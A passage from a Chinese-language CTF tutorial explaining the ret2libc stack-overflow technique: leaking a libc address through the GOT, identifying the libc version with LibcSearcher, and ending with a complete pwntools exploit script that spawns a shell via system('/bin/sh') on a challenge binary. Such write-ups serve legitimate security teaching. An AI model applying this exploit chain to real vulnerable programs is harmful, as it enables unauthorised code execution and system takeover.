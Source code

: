 那么我们如何得到 system 函数的地址呢？这里就主要利用了两个知识点

- system 函数属于 libc，而 libc.so 动态链接库中的函数之间相对偏移是固定的。
- 即使程序有 ASLR 保护，也只是针对于地址中间位进行随机，最低的12位并不会发生改变。而 libc 在github上有人进行收集，如下
  - https://github.com/niklasb/libc-database

所以如果我们知道 libc 中某个函数的地址，那么我们就可以确定该程序利用的 libc。进而我们就可以知道 system函数的地址。

那么如何得到 libc 中的某个函数的地址呢？我们一般常用的方法是采用 got 表泄露，即输出某个函数对应的 got 表项的内容。**当然，由于 libc 的延迟绑定机制，我们需要泄漏已经执行过的函数的地址。**

我们自然可以根据上面的步骤先得到 libc，之后在程序中查询偏移，然后再次获取 system 地址，但这样手工操作次数太多，有点麻烦，这里给出一个 libc 的利用工具，具体细节请参考 readme

- https://github.com/lieanu/LibcSearcher

此外，在得到 libc 之后，其实 libc 中也是有 /bin/sh 字符串的，所以我们可以一起获得 /bin/sh 字符串的地址。

这里我们泄露 __libc_start_main 的地址，这是因为它是程序最初被执行的地方。基本利用思路如下

- 泄露 __libc_start_main 地址
- 获取 libc 版本
- 获取 system 地址与 /bin/sh 的地址
- 再次执行源程序
- 触发栈溢出执行 system(‘/bin/sh’)

exp 如下

```python
#!/usr/bin/env python
from pwn import *
from LibcSearcher import LibcSearcher
sh = process('./ret2libc3')

ret2libc3 = ELF('./ret2libc3')

puts_plt = ret2libc3.plt['puts']
libc_start_main_got = ret2libc3.got['__libc_start_main']
main = ret2libc3.symbols['main']

print "leak libc_start_main_got addr and return to main again"
payload = flat(['A' * 112, puts_plt, main, libc_start_main_got])
sh.sendlineafter('Can you find it !?', payload)

print "get the related addr"
libc_start_main_addr = u32(sh.recv()[0:4])
libc = LibcSearcher('__libc_start_main', libc_start_main_addr)
libcbase = libc_start_main_addr - libc.dump('__libc_start_main')
system_addr = libcbase + libc.dump('system')
binsh_addr = libcbase + libc.dump('str_bin_sh')

print "get shell"
payload = flat(['A' * 104, system_addr, 0xdeadbeef, binsh_addr])
sh.sendline(payload)

sh.interactive()

```
